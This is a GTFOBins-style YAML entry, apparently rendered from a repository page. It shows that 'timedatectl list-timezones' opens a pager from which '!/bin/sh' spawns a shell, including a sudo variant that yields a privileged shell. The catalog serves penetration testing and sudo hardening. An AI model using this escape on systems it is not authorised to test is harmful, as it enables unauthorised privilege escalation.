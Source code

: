 ```yaml
---
description: |
  This invokes the default pager, which is likely to be [`less`](/gtfobins/less/), other functions may apply.

  This might not work if run by unprivileged users depending on the system configuration.
functions:
  shell:
    - code: |
        timedatectl list-timezones
        !/bin/sh
  sudo:
    - code: |
        sudo timedatectl list-timezones
        !/bin/sh
---
```

